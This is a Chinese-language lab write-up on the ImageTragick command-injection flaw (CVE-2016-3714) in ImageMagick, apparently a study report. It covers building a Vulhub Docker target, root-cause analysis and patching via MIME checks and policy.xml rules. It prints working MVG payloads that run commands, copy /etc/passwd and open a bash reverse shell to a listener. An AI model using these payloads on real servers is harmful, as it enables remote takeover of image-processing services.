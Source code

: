 # Imagetragick 命令执行漏洞（CVE-2016–3714）

## 一.靶场环境构建

#### 1.使用 Vulhub 一键搭建漏洞测试靶场

- 安装Docker，docker-compose

```
sudo apt-get update && apt-getinstall docker.io
sudo curl -L https://github.com/docker/compose/releases/download/1.18.0/docker-compose-`uname -s`-`uname -m` -o /usr/local/bin/docker-compose

```
- 启动Docker服务

```
sudo service docker start
```
- 拉取vulhub

```
git clone https://github.com/vulhub/vulhub.git 
```
- 自动化编译docker环境

```
docker-compose up -d
```
#### 2.环境完成测试


- 本地web服务器访问：已可访问服务器下的已有页面

![](pic/access.PNG)

- upload.php:将上传的文件传入PHP的imagick扩展，触发漏洞

## 二.漏洞利用实战

**1. docker容器内使用imagemagick convert转换命令，触发漏洞：**

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0"|ls -l")'
pop graphic-context
```
-  嵌入命令执行成功

![](pic/test4.PNG)


**2. 本机内测试已有的简单poc:vul.jpg**

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`cat /etc/passwd > /tmp/success`'
pop graphic-context
```
- 复制/etc/passwd文件到tmp目录。访问demo.php后，在docker容器中查看temp目录，成功获得success文件

![](pic/test3.PNG)

**3. 建立TCP连接，反弹shell：**
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|/bin/bash -i >& /dev/tcp/172.17.0.1/8889 0>&1")'
pop graphic-context

```
- 测试前，为了兼容性，先把靶机shell解释器改为bash：

```
sudo docker-compose exec apache rm -rf /bin/sh
sudo docker-compose exec apache ln -s /bin/bash /bin/sh
```
- 本机nc命令监听TCP 8889端口，成功反弹shell，可看到容器内安装的imagemagick版本是特定的漏洞版本

![](pic/test5.PNG)


## 三.漏洞原理分析

- ImageMagick最开始使用ReadImage函数解析图片，此时所谓的图片完全可以是处理过的参数字符串，（ImageMagick默认支持一种图片格式mvg，以文本形式写入矢量图的内容）当图片地址以https://开头时，就会执行后续的委托行动。最后调用ExternalDelegateCommand传入了系统的system函数执行命令。

- 完整的解析执行过程：

```
ConvertMain() -> MagickCommandGenesis()-> ConvertImageCommand() 

-> ReadImages() -> ReadImage() ->ReadMVGImage() -> DrawImage() ->ReadImage() 

-> InvokeDelegate() -> system()
```
 
- CVE-2016–3714即是利用了ImageMagick传递委托命令时的文件名过滤不足的漏洞。委托的本质是调用外部的lib来处理文件。委托定义在ImageMagick的默认配置文件：delegates.xml里，其中支持HTTPS图片的一条：
```
 <delegate decode="https" command="&quot;curl&quot; -s -k -L -o &quot;%o&quot; &quot;https:%M&quot;"/>
```
- 解析https图片的时候，文件有`fill`字段代表需要填充外部的图片进当前的图片，curl指用curl命令将外部图片下载后填充。重点是最后的url部分：‘https:%M’，由于参数过滤不足，（基本没有过滤）就可以进行shell命令注入。只需使用反引号（`）或闭合双引号拼接命令行，传入了系统的system函数，就可执行任意命令。

[参考来源：https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html](https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html)

[https://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd](https://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd)

## 四.漏洞影响分析

**漏洞的 CVSS 评分分析**



## 五.漏洞缓解

**检测并阻止「漏洞利用」行为**


## 六.漏洞修补

**1. 在上传图片时需要通过文件内容来判断用户上传的是否为真实图片类型。**

- 处理图片前，是图片头，如果图片头不是你想要的格式，那么就不调用ImageMagick处理图片。php使用Fileinfo 获取文件MIME类型，更改web站点uplaod.php页面代码：

- 原码仅仅检测了后缀名，导致伪装格式图片上传
![](pic/defend3.PNG)

- 改为
```
$finfo    = finfo_open(FILEINFO_MIME);
$mimetype = finfo_file($finfo, $_FILES);
if (!in_array($mimetype, ['gif', 'png', 'jpg', 'jpeg'])) {
    die('Unsupported filetype uploaded.');
}
```
- 测试。检测出上传图片格式出错
![](pic/defend4.PNG)

**2. 在delegates.xml中更改对HTTPS方式的支持这一条**

- 更改"https:%M%"的%M为其他占位符

- 容器本地convert测试。命令解析出错

![](pic/defend2.PNG)

- 外部宿主机web访问upload.php上传图片，漏洞仍能触发，此处存在疑问，php使用的是imagick扩展API，调用Imagick类的构造。此处仍能触发漏洞，说明PHP imagick扩展与imagemagick独立？

**3. 使用策略配置文件来禁止解析https等敏感操作**
- 进入容器内部 
```
sudo docker-compose exec apache bash
```

- 在policy.xml（位于/usr/local/etc/ImageMagick-6）最后一行进行增加下列配置:

```
<policymap>
<policy domain="coder" rights="none" pattern="EPHEMERAL" />
<policy domain="coder" rights="none" pattern="URL" />
<policy domain="coder" rights="none" pattern="HTTPS" />
<policy domain="coder" rights="none" pattern="MVG" />
<policy domain="coder" rights="none" pattern="MSL" />
</policymap> 
```
- 再次尝试触发漏洞：容器本地convert测试，漏洞没有触发
 
![](pic/defend1.PNG)

- 外部宿主机wed访问upload.php上传图片，漏洞仍能触发，同上存在同样的疑问

[参考来源：https://access.redhat.com/security/vulnerabilities/ImageTragick](https://access.redhat.com/security/vulnerabilities/ImageTragick)

[https://imagetragick.com/](https://imagetragick.com/)
